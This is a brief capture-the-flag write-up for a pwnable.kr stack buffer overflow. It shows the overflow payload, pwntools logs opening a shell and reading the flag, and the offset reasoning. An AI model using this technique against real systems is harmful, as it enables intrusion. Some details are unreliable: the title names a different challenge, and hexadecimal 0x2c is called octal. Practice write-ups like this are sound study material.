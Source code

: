 # Pwnable.kr 01-FD writeup
U have 2 way to get a flag.

If u type 1, It will go to interactive shell

If u type 2, It will get flag automatically

```
[+] Opening connection to pwnable.kr on port 9000: Done
[*] payload is : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xbe\xba\xfe?
[?] if u want interactive shell press 1 , if u want flag press 2 :   1
[*] Switching to interactive mode
$ cat flag
daddy, I just pwned a buFFer :)
```

```
[+] Opening connection to pwnable.kr on port 9000: Done
[*] payload is : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xbe\xba\xfe?
[?] if u want interactive shell press 1 , if u want flag press 2 :   2
[+] Receiving all data: Done (32B)
[*] Closed connection to pwnable.kr port 9000
daddy, I just pwned a buFFer :)
```
# What I used?
In code, 
` char overflowme[32]; ` and I need to change key variable `0xdeadbeef` to `0xcafebabe` So I need to overflow the buffer.  So I make a 52 dummy `A` and insert `p32(0xcafebabe)` . 

#But why 52 dummy char?
I think memory struct will

`key variable(0xdeadbeef) | RET | SFP | dummy(?) | overflowme array(32byte)`
if u see the binary with gdb, key variable is at ebp+8 and overflowme array start at ebp+0x2c.

0x2c by octal number is 44

44 + 8 is 52.

So dummy char should 52.


# same exploit with explanation 
blog.hanukoon.com

